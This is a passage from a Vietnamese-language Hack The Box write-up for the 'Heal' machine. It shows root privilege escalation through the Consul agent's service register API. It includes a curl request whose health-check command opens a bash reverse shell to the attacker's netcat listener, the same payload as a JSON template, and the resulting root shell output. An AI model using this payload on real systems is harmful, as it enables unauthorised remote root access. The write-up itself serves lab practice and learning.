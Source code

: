 Tôi có thể biến PoC này thành file python và chạy. Tuy nhiên là tôi không có acl_token nên tôi sẽ sử dụng 1 cách thủ công: là gửi 1 request register thông qua `curl` với nội dung chính là phần json của PoC trên.

```text
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}
```

Trước tiên là phải bật 1 listener với port tự chọn, ở đây tôi chọn 9001

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
```

Gửi request bằng `curl`, thay đổi IP là máy của tôi và port mong muốn - ở đây tôi đang dùng 9001

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal]
└─$ curl -X PUT -d '{"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.25/9001 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}' http://127.0.0.1:8500/v1/agent/service/register
```

Quay lại listener

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.46] 36370
bash: cannot set terminal process group (149665): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@heal:/# cd root
cd root
root@heal:~# ls -la
ls -la
total 52
drwx------  7 root root 4096 Mar 21 19:42 .
drwxr-xr-x 19 root root 4096 Dec  8 13:57 ..
lrwxrwxrwx  1 root root    9 Nov 29 11:50 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .bundle
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .cache
-rwxr-xr-x  1 root root  658 Sep 27 12:16 cleanup-consul.sh
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .config
-rwxr-xr-x  1 root root  863 Oct  7 03:23 consul-up.sh
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .local
-rwxr-xr-x  1 root root  585 Dec  4 10:09 plugin_cleanup.sh
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Mar 21 19:42 root.txt
drwx------  2 root root 4096 Dec  8 13:57 .ssh
```
